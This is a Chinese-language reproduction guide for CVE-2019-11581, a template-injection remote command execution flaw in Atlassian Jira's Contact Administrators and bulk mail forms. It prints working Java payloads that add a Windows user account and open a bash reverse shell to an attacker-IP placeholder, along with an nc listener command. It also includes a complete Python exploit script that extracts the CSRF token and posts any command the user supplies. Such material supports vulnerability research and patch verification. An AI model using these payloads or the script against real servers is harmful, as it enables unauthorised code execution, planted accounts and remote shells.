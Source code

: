 （CVE-2019-11581）Atlassian Jira 远程命令执行漏洞
=================================================

一、漏洞简介
------------

此漏洞由于Atlassian Jira中的Atlassian Jira Server和Jira Data
Center模块存在模板注入，当"联系管理员表单"功能开启时，攻击者可以在表单插入java恶意代码,当服务端对传入数据进行解析时,会执行数据中插入的恶意代码,并执行其中的命令。**攻击者通过这种方式可以实现远程代码执行漏洞的利用，获取服务器的敏感信息泄露，甚至可以利用此漏洞进一步对服务器数据进行修改，增加，删除等操作**，对服务器造成巨大的影响。

二、漏洞影响
------------

Atlassian Jira 4.4.xAtlassian Jira 5.x.xAtlassian Jira 6.x.xAtlassian Jira 7.0.xAtlassian Jira 7.1.xAtlassian Jira 7.2.xAtlassian Jira 7.3.xAtlassian Jira 7.4.xAtlassian Jira 7.5.xAtlassian Jira 7.6.x \< 7.6.14Atlassian Jira 7.7.xAtlassian Jira 7.8.xAtlassian Jira 7.9.xAtlassian Jira 7.10.xAtlassian Jira 7.11.xAtlassian Jira 7.12.xAtlassian Jira 7.13.x \< 7.13.5Atlassian Jira 8.0.x \< 8.0.3Atlassian Jira 8.1.x \< 8.1.2Atlassian Jira 8.2.x \< 8.2.3

三、复现过程
------------

### 漏洞分析

**1.利用前提条件：**

第一种，未授权代码执行利用条件：Jira已配置好SMTP服务器，且需开启"联系网站管理员表单"功能。（从WEB界面设计上看，实际上如果没配置SMTP服务器，无法开启此功能

第二种利用场景前提是拿到Jira管理员的权限，利用条件较难满足，这里主要分析第一种情况。原因在于atlassian-jira/WEB-INF/classes/com/atlassian/jira/web/action/user/ContactAdministrators
未对Subject（邮件主题）处进行过滤，用户传入的邮件主题被当作template（模板）指令执行。在任何一种情况下，成功利用此漏洞的攻击者都可在运行受影响版本的Jira
Server或Jira Data Center的系统上执行任意命令。

**2.以下两种url漏洞验证方式：**

第一种无需管理员账户权限：http://www.0-sec.org:8080[/secure/ContactAdministrators!default.jspa](http://ip:port/secure/ContactAdministrators!default.jspa)

![](resource/(CVE-2019-11581)AtlassianJira远程命令执行漏洞/media/rId26.png)

第二种需管理员账户权限：http://www.0-sec.org:8080/secure/admin/SendBulkMail!default.jspa

![](resource/(CVE-2019-11581)AtlassianJira远程命令执行漏洞/media/rId27.png)

### 漏洞复现

**1. 漏洞利用条件**

联系管理员处必须开启 （需要知道后台管理员账号密码）

**2.环境准备：**

Atlassian JIRAv7.13.0 (以该版本为例，该版本存在漏洞)下载地址：

https://product-downloads.atlassian.com/software/jira/downloads/atlassian-jira-software-7.13.0-x64.exe

安装过程不再描述（按照提示进行安装，先在官方注册一个账号然后拿到一个试用期序列号并进行安装），注意，到了邮件配置那一步经尽量选以后(默认就是)，然后进入后台配置。

**3.确认未登陆状态下漏洞的存在**

访问如下URL（无需管理员账户权限）：

http://www.0-sec.org:8080/secure/ContactAdministrators!default.jspa

如果提示如下图，这说明没有配置联系管理员是无法触发漏洞。

![](resource/(CVE-2019-11581)AtlassianJira远程命令执行漏洞/media/rId29.png)

请登陆后台开启联系管理员，配置地址如下：

http://www.0-sec.org:8080/secure/admin/EditApplicationProperties!default.jspa

默认是关闭的，需要配置了STMP发信后才能开启，配置STMP的时候可以测试连接，服务器必须开25端口，不然不能发邮件，下图是开启成功

![](resource/(CVE-2019-11581)AtlassianJira远程命令执行漏洞/media/rId30.png)

**4.未登陆状态下触发漏洞**

访问

http://www.0-sec.org:8080/secure/ContactAdministrators!default.jspa

![](resource/(CVE-2019-11581)AtlassianJira远程命令执行漏洞/media/rId31.png)

在Subject填入payload，注意，我这里环境是windows机器，所以可以添加账号观察，Linux可以用反弹shell的代码等等,反正换成自己想执行的命令。

    $i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('net user bk abc@ABC123 /add').waitFor()

![](resource/(CVE-2019-11581)AtlassianJira远程命令执行漏洞/media/rId32.png)

发送了后可能会等一会儿，因为要加入邮件队列。这时候再上服务器执行net
user查看，发现正是刚刚执行命令添加的账户。

![](resource/(CVE-2019-11581)AtlassianJira远程命令执行漏洞/media/rId33.png)

**5. 登陆管理员账号触发漏洞**

登陆管理员账号，然后访问如下URL：

http://www.0-sec.org:8080/secure/admin/SendBulkMail!default.jspa

填入payload，如下，注意执行命令添加账号的账户名

    $i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('net user bk01 abc@ABC123 /add').waitFor()

![](resource/(CVE-2019-11581)AtlassianJira远程命令执行漏洞/media/rId34.png)

![](resource/(CVE-2019-11581)AtlassianJira远程命令执行漏洞/media/rId35.png)

linux下可执行：

目标Jira系统可执行的POC

    $i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('curl http://www.baidu.com').waitFor()
    $i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('bash -i >& /dev/tcp/攻击者IP/2333 0>&1').waitFor()

攻击者主机执行:nc -lvvp 2333

### poc

> scan

    #/usr/bin/python
    # -*- coding: utf8 -*-

    # 
    # the program intents to automate the process of exploiting CVE-2019-11581 During our engagments - quick and dirty
    # I will probably will add features to make it more easy.
    # Ths is some skeleton and probably things will not work on first run


    # Importing
    import requests
    import sys
    import argparse
    from bs4 import BeautifulSoup
    import cmd

    parser = argparse.ArgumentParser()
    parser.add_argument("domain", help="JIRA Instance")
    parser.add_argument("cmd", help="Command to run")
    args = parser.parse_args()

    #Some Debugging Globals
    http_proxy  = "http://127.0.0.1:8080"
    https_proxy = "https://127.0.0.1:8080"
    ftp_proxy   = "ftp://127.0.0.1:8080"
    #Proxy Dictionary
    proxyDict = { 
                  "http"  : http_proxy, 
                  "https" : https_proxy
                }
    headers = {'UserAgent':'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0'}


    def JiraScan(domain,cmd):
        #Filtering host
        domain = domain + '/secure/ContactAdministrators!default.jspa'
        #Checking if host is vulnerable by checking if specific string is present
        s = requests.Session()
        r = s.get(domain, proxies=proxyDict, verify=False)
        html_doc = r.content
        soup = BeautifulSoup(html_doc, 'lxml')
        
        notvuln = soup.findAll("div",{"class":"aui-message aui-message-warning warningd"})
        if notvuln:
            print "[-] Not Vulnerable"
        else:
            print "[+] Checking if Vulnerable"
            #In order to have valid request we need to handle JIRA CSRF Tokens
            #Extracting atl_token from form
            html_doc = r.content
            soup = BeautifulSoup(html_doc, 'lxml')
            data = soup.findAll(attrs={"name" : "atl_token"})
            print data
            #Returning Token value
            token = data[0]['value']
            print token
            #Replacing path
            domain= domain.replace('!default.jspa','.jspa')
            # body of post request
             #(),'subject':"",'details':",'atl_token': value,'Send':'Send'}
            payload = "$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('%s').waitFor()" % cmd
            qparams = (('from','JIRA@JIRA.com'),('subject',payload),('details',payload),('atl_token',token),('Send','Send'))
            
            #Final Payload
            attack = s.post(domain, headers = headers, data = qparams, proxies=proxyDict, verify=False)

    if __name__ == '__main__':
        JiraScan(args.domain,args.cmd)

参考链接
--------

> https://www.cnblogs.com/backlion/p/11608439.html
